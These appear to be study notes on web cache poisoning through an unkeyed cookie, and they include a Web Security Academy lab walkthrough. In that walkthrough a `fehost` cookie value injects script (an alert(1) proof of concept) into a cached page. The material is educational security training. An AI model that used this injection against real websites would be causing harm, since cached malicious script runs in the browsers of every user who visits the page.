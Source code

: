 In this example, the Polish version of a blog post is being requested. Notice that the information about which language version to serve is only contained in the Cookie header. Let's suppose that the cache key contains the request line and the Host header, but not the Cookie header. In this case, if the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish version as well, regardless of which language they actually selected.

This flawed handling of cookies by the cache can also be exploited using web cache poisoning techniques. In practice, however, this vector is relatively rare in comparison to header-based cache poisoning. When cookie-based cache poisoning vulnerabilities exist, they tend to be identified and resolved quickly because legitimate users have accidentally poisoned the cache. 

### PRACTITIONER Lab: Web cache poisoning with an unkeyed cookie
Note: this lab is not described in great details, to understand what's going on here read the description of the `Lab: Web cache poisoning with an unkeyed header`

The main idea is to find a cookie that is not included in the cache key, and the value of that cookie must be reflected in the response on a page that can be cached

A cookie like that can be searched with Param Miner

In the lab the value of cookies aren't included in the cache key. But we know that GET / page is cached and the value of `fehost` Cookie is reflected on that page

When we make a request:
```bash
GET / HTTP/2
Host: labid.web-security-academy.net
Cookie: fehost=VVVV
```

We see the value of `fehost` cookie reflected in the response html:
```bash
       <script>
            data = {"host":"0aa2008d0413718a80350d0a0061004a.web-security-academy.net","path":"/","frontend":"VVVV"}
        </script>
```

We can therefore poison the web cache with the following request:
```bash
GET / HTTP/2
Host: labid.web-security-academy.net
Cookie: fehost="}%3balert(1)%20//
```

And in the response we'll get:
```bash
        <script>
            data = {"host":"labid.web-security-academy.net","path":"/","frontend":""};alert(1) //"}
        </script>
```

Now that response is cached and when other users visit the page, the js code will be executed


### Using multiple headers to exploit web cache poisoning vulnerabilities
Some websites are vulnerable to simple web cache poisoning exploits, as demonstrated above. However, others require more sophisticated attacks and only become vulnerable when an attacker is able to craft a request that manipulates multiple unkeyed inputs.
